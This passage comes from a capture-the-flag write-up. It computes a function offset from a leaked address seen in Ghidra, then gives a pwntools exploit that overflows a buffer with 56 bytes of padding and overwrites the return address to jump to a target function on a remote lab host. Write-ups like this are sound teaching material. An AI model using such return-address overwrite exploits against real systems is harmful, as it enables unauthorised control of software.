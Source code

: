 Now we know our padding and leaked main address, we can get the relative address
by knowing the main address and target address from our program locally.

![main address ghidra](./img/bread/bread5.png "main address in ghidra")

![target address ghidra](./img/bread/bread6.png "target address in ghidra")

We see that the value for main address and target address are `0x1400014db` and
`0x1400014bc` respenctively.

So, here is the exploit code.

```python
from pwn import *

# p = process(["wine", "./bread.exe"])
p = remote("172.31.0.3", 56001)

r = p.recvline_contains(b"Something important").decode()
addr = r[r.find('0'):r.find('0')+16]
print(addr)

known_main = 0x1400014db
known_target = 0x1400014bc

addr_diff = known_main - known_target

main_addr = int(addr, 16)
target_addr = main_addr - addr_diff

payload = b"a" * 56 + p64(target_addr)

print(p.recvline_contains(b"flag?").decode())
p.sendline(payload)

p.interactive()
```


[prevwriteup]: /blog/l3akctf-2024-writeup/
[tscctf]: https://ctftime.org/event/2598
[ctftag]: /blog/tag/ctf/
[domclob]: https://portswigger.net/web-security/dom-based/dom-clobbering
[clobpayload]: https://domclob.xyz/domc_markups/list
[webhooksite]: https://webhook.site
[beautiwriteup]: https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/crocodilu